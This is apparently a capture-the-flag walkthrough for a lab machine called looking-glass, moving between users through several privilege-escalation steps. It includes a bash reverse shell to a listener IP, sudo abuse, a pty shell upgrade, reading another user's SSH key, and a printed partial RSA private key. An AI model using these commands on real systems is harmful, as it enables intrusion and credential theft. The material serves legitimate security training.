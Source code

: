 `twasBrillig.sh`:
```bash
bash -i >& /dev/tcp/10.6.36.105/1337 0>&1
```

* Now we can run `nc -lvnp 1337` locally and `sudo /sbin/reboot` remotely to get a shell as tweedledum

### tweedledee
* In the `/home/tweedledum` directory, a file called `humptydumpty.txt` contains the following:
```
dcfff5eb40423f055a4cd0a8d7ed39ff6cb9816868f5766b4088b9e9906961b9
7692c3ad3540bb803c020b3aee66cd8887123234ea0c6e7143c0add73ff431ed
28391d3bc64ec15cbb090426b04aa6b7649c3cc85f11230bb0105e02d15e3624
b808e156d18d1cecdcc1456375f8cae994c36549a07c8c2315b473dd9d7f404f
fa51fd49abf67705d6a35d18218c115ff5633aec1f9ebfdc9d5d4956416f57f6
b9776d7ddf459c9ad5b0e1d6ac61e27befb5e99fd62446677600d7cacef544d0
5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8
7468652070617373776f7264206973207a797877767574737271706f6e6d6c6b
```
* This is hex for the following:
```
Üÿõë@B?ZLÐ¨×í9ÿl¹hhõvk@ˆ¹éia¹?v’Ã­5@»€<:îfÍˆ‡24ênqCÀ­×?ô1í?(9;ÆNÁ\»
&°J¦·dœ<È_#°^Ñ^6$?¸áVÑìÜÁEcuøÊé”ÃeI |Œ#´sÝ@O?úQýI«öwÖ£]!Œ_õc:ìž¿Ü]IVAoWö?¹wm}ßEœšÕ°áÖ¬aâ{ïµéŸÖ$Fgv×ÊÎõDÐ?^ˆH˜Ú(qQÐåoÆ)'s`=
j«½Ö*ïrBØ?
the password is zyxwvutsrqponmlk?
```
* The password for something looks like `zyxwvutsrqponmlk`

* `sudu -l` gives the following:
```
Matching Defaults entries for tweedledum on looking-glass:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tweedledum may run the following commands on looking-glass:
    (tweedledee) NOPASSWD: /bin/bash
```

* We can run `sudo -u tweedledee /bin/bash` and get the tweedledee user

### humptydumpty
* Both the tweedledee and tweedledum users have the humptydumpty password
	* Running `su humptydumpty` gives us `su: must be run from a terminal`
	* Thus, we can get an interactive shell with the following steps:
```
1. python3 -c 'import pty;pty.spawn("/bin/bash")'
2. CTRL + Z 
3. stty raw -echo
4. fg
```

### alice
* After a lot of searching, I found that I was able to read the private ssh key of the alice with `cat /home/alice/.ssh/id_rsa`:
`alice.key`
```
-----BEGIN RSA PRIVATE KEY-----
MIIEpgIBAAKCAQEAxmPncAXisNjbU2xizft4aYPqmfXm1735FPlGf4j9ExZhlmmD
NIRchPaFUqJXQZi5ryQH6YxZP5IIJXENK+a4WoRDyPoyGK/63rXTn/IWWKQka9tQ
2xrdnyxdwbtiKP1L4bq/4vU3OUcA+aYHxqhyq39arpeceHVit+jVPriHiCA73k7g
HCgpkwWczNa5MMGo+1Cg4ifzffv4uhPkxBLLl3f4rBf84RmuKEEy6bYZ+/WOEgHl
fks5ngFniW7x2R3vyq7xyDrwiXEjfW4yYe+kLiGZyyk1ia7HGhNKpIRufPdJdT+r
NGrjYFLjhzeWYBmHx7JkhkEUFIVx6ZV1y+gihQIDAQABAoIBAQDAhIA5kCyMqtQj
X2F+O9J8qjvFzf+GSl7lAIVuC5Ryqlxm5tsg4nUZvlRgfRMpn7hJAjD/bWfKLb7j
```